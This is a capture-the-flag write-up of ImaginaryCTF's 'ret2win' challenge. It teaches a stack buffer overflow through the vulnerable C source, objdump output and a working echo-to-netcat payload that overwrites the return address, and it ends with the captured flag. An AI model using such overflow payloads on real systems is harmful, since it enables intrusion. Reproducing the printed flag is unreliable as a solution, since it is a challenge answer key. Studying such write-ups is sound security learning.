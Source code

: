 ```yaml
---
layout: post
title: "ret2win CTF Writeup"
excerpt: One of the most common exploit problems presented in CTFs are "ret2win" problems. Naturally ImaginaryCTF has a 100 point ret2win to get noobies their toes wet and experienced players a chance to warm.
---
```


## The Problem

One of the most common exploit problems presented in CTFs are "ret2win" problems.
Naturally ImaginaryCTF has a 100 point ret2win to get noobies their toes wet and
experienced players a chance to warm. The challenge, titled "ret2win", gives the
description:

> Jumping around memory is hard. I'll give you some help so that you can pwn this!

This is accompanied by 2 attachments and a netcat command to talk to the server the challenge
is running on.

[vuln](https://imaginaryctf.org/r/W94dw#vuln)
[vuln.c](https://imaginaryctf.org/r/IDlsV#vuln.c)
`nc ret2win.chal.imaginaryctf.org 1337`

## The Source, a binary, and the Server Soon To Be Pwned

Running the binary presents the user with a prompt:

```
Welcome to ret2win!
Right now I'm going to read in input.
Can you overwrite the return address?
```

As far as ret2win's go, this one is certainly handing the answer on a silver platter.
Once the user has given the program its input, another line is presented.

```
Returning to 0x7f97cc429290...
```

This address being returned will become very useful in a bit. However, lets move on the source code.

```c
#include <stdio.h>
#include <stdlib.h>

int win() {
  FILE *fp;
  char flag[255];
  fp = fopen("flag.txt", "r");
  fgets(flag, 255, fp);
  puts(flag);
}

char **return_address;

int main() {
  char buf[16];
  return_address = buf+24;

  setvbuf(stdout,NULL,2,0);
  setvbuf(stdin,NULL,2,0);

  puts("Welcome to ret2win!");
  puts("Right now I'm going to read in input.");
  puts("Can you overwrite the return address?");

  gets(buf);

  printf("Returning to %p...\n", *return_address);
}
```

The first thing that will catch your eye is the `int win()` function. Reading it carefully you will
see that this function opens the flag file and spits it out to the user. Great! This is what we need.
Looking at the `main()` function we see that a 16 byte buffer is allocated to the stack, the `return_address`
global variable is set to 24 bytes offset from the buffer (seemingly out of bounds). Then, the start message
we saw is displayed, a string is read into `buf`, and the address `return_address` points to is displayed.

However, there is something wrong here. The `win` function is never called. So this challenge must not be
possible right? Well, it is, but we need a bit of knowledge of how x86 uses the stack and a buffer overflow.

## The Stack Demystified

Operating systems like Linux use the stack in a predictable way. When entering a function, they save a
pointer to where they left off on the stack. This pointer is what is popped off when `return` is called
and the program must got back to whence it came. After entering a function, a pointer to the base of the
last stack frame (`ebp`) is usually saved (unless the stack isn't used in that function), and any stack allocated
variables are pushed to the end.

For instance, our main functions stack would look like below (first row is highest addresses):

||||
| --- | --- |
| 0xFFFFFFFF | ... |
| 0xFFFFFFF8 | `return_address` |
| 0xFFFFFFF0 | `ebp` |
| 0xFFFFFFE0 | `buf` |

So, since our goal is to run `win` to get our flag value, maybe instead of having main return to `return_address` we
could somehow have it return to a different address; Say the start of `win`. For this we will need one more thing: a
buffer overflow.

## Buffer Overflow

You may notice that the call to `gets` doesn't have a length parameter. That is because it is not bounds checked.
It simply continues taking in characters and writing to its buffer until input ends. Well since `buf` is right
below `ebp` and `return_address` in the stack, this means that itcould potentially overwrite those values if
we input more than 16 characters. Let's test this theory. For our input let's enter "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa".

```
Welcome to ret2win!
Right now I'm going to read in input.
Can you overwrite the return address?
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Returning to 0x6161616161616161...
[1]    637 segmentation fault (core dumped)  ./vuln
```

We crashed! You'll see the address we tried to while invalid is exactly what we wanted: a bunch of 'a's or 0x61 in hex
in the return address. Now we just have to carefully craft our input overwrite the `return_address` with `win`s starting address.

To get `win`s starting address we can use a linux utility called `objdump`. This program will take in a binary and
spit out its assembly code along with any symbols it can find. Running `objdump -D ./vuln` will display a lot of assembly code including...

```asm
00000000004011d6 <win>:
  4011d6:       f3 0f 1e fa             endbr64
  4011da:       55                      push   %rbp
  4011db:       48 89 e5                mov    %rsp,%rbp
  4011de:       48 81 ec 10 01 00 00    sub    $0x110,%rsp
  4011e5:       48 8d 35 1c 0e 00 00    lea    0xe1c(%rip),%rsi        # 402008 <_IO_stdin_used+0x8>
  4011ec:       48 8d 3d 17 0e 00 00    lea    0xe17(%rip),%rdi        # 40200a <_IO_stdin_used+0xa>
  4011f3:       e8 e8 fe ff ff          call   4010e0 <fopen@plt>
  4011f8:       48 89 45 f8             mov    %rax,-0x8(%rbp)
  4011fc:       48 8b 55 f8             mov    -0x8(%rbp),%rdx
  401200:       48 8d 85 f0 fe ff ff    lea    -0x110(%rbp),%rax
  401207:       be ff 00 00 00          mov    $0xff,%esi
  40120c:       48 89 c7                mov    %rax,%rdi
  40120f:       e8 9c fe ff ff          call   4010b0 <fgets@plt>
  401214:       48 8d 85 f0 fe ff ff    lea    -0x110(%rbp),%rax
  40121b:       48 89 c7                mov    %rax,%rdi
  40121e:       e8 6d fe ff ff          call   401090 <puts@plt>
  401223:       90                      nop
  401224:       c9                      leave
  401225:       c3                      ret
```

We have it! The address we need to jump to is `0x4011d6`. Now we can move on to our attack.

## The Exploit

To craft our payload, I'll just be using `echo`, but other
methods can also work to send non-character data. First, we will send 16 'a's to just fill up the buffer. Then, another
8 bytes of any non-zero values. Lastly, we send `0x4011d6` in little endian as a 64 bit number. When, going over netcat
it will be necessary that we also send a newline since the input buffer is still open.

```sh
❯ echo -n -e '\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xbb\xbb\xbb\xbb\xbb\xbb\xbb\xbb\xd6\x11\x40\x00\x00\x00\x00\x00\n' | nc ret2win.chal.imaginaryctf.org 1337
== proof-of-work: disabled ==
Welcome to ret2win!
Right now I'm going to read in input.
Can you overwrite the return address?
Returning to 0x4011d6...
ictf{c0ngrats_on_pwn_number_1_9b1e2f30}
```

> ictf{c0ngrats_on_pwn_number_1_9b1e2f30}

We got our flag and 100 points! If you've made it this far, I hope you learned a thing or two about how stacks and
buffer overflows work. Now get out there and pwn some more CTF's.

Happy Hacking.

